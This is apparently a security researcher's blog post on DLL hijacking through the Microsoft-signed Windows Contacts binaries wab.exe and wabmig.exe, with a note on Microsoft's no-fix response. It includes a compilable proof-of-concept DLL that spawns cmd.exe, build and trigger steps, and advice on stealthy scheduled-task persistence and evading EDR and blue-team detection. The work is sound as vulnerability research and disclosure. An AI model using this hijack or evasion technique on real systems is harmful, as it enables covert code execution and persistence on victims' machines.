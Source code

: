 ```yaml
---
title: "CWD DLL Hijacks in Windows Contacts"
date: 2024-03-18T02:08:42Z
draft: true
tags: ["notes research"]
---
```


![Alt text](images/image-3.png)

## WAB!

Recently when looking for some bugs to leverage red teaming, I found the following Windows binaries load several libraries from the application directory. Note that these files are also digitally signed by Microsoft. 

1. `C:\Program Files\Windows Mail\wabmig.exe`
2. `C:\Program Files\Windows Mail\wab.exe`

Attackers can leverage this behavior to perform DLL hijacking / proxying attacks and obtain code execution on a target system, establish persistence and/or distribute malware. 

Sigcheck output:
```
PS C:\Program Files\Windows Mail> sigcheck .\wab.exe

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Windows Mail\wab.exe:
        Verified:       Signed
        Signing date:   2:52 AM 2/2/2024
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Windows Contacts
        Product:        Microsoft� Windows� Operating System
        Prod version:   10.0.19041.3636
        File version:   10.0.19041.3636 (WinBuild.160101.0800)
        MachineType:    64-bit
```

### Vanilla DLL Hijack PoC

1. Create a file named "test.c" wherever you want, containing a DLL PoC, e.g.:
```c
#pragma once
#include <windows.h>
#include <WinUser.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxW(NULL, L"TEST", L"TEST", MB_OK);
        system("cmd.exe");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

2. Open the Developer Command Prompt and navigate to the directory test.c was saved to
3. Compile test.c into msftedit.dll using the following command:
`cl /LD test.c /Fe:msftedit.dll User32.lib`
4. Copy `wab.exe` and/or `wabmig.exe` to the same directory as the new `msftedit.dll`
4. Execute wab.exe / wabmig.exe
5. Note the messagebox displaying "TEST", followed by a Command Prompt window indicating the malicious `msftedit.dll` file has been loaded by the application.

![Alt text](images/image-2.png)

As this is an application directory hijack, it is possible to host the vulnerable applications and DLLs on remote file shares, or within ISO containers to perform hijacking attacks. This is pretty sweet as it allows malware delivery options that leverage signed MS bins :) Sadly signing isn't respected from UNC paths.

Additionally, running the wab.exe application with the `/SyncLogonPicture` CLI switch avoids creating a GUI window, allowing for a stealthier form of execution-- one that's suitable for persistence.

## Disclosure

I reported this out to MS as a CWD hijack initially-- according to their [DLL planting triage](https://msrc.microsoft.com/blog/2018/04/triaging-a-dll-planting-vulnerability/) post this seemed to fit the bill for a CWD. Opening an associated file type like `.contact` didn't cause the behavior though, so I came to the realize it's what they'd consider to be an application hijack. As far as MS is concerened, this warrants *no fix at all* and a severity rating of `none`.

![alt text](images/ms-response.png)

Better luck next time, I guess!

## So is this even useful?

In terms of initial access... maaaybeeee. For persistence? Yes and there are a couple use cases I can immediately apply. 

Due to the presence of a few undocumented CLI switches it's possible to launch wab/mig, and their corresponding DLL hijacks, without opening any windows. As mentioned previously, the `/SyncLogonPicture` switch does... *something*, and runs silently, which means a scheduled task like the following looks pretty innocuous, no?

![alt text](images/scheduled_task.png)

Placing a malicious `msftedit.dll` in `C:\Program Files\Windows Mail\` means every time this task is run, your payload runs too :) Sure, that requires you have local admin, womp womp, but another option would be to just copy `wab.exe` somewhere else, maybe `%appdata%`, and do the same thing. Place the DLL, make the task.

You might think: 

    "why don't you just run an exe if you can place something on disk?" 

You could definitely do that, but in the land age of telemetry, reducing *any footprint* is potentially useful. Running a Microsoft *signed* executable shouldn't set off any alarms immediately, which in turn might help prevent high fidelity detections. A scheduled task that also **seems relevant** to what the signed binary is actually doing may further disguise this persistence mechanism, and blue teams may not (hopefully) identify the true malicious nature of the task, deferring to it's apparent legitimacy.

Anyway, lots of cheeky ways of going about this, some more useful than others. I'll take anything to keep the EDR at bay during ops, though!
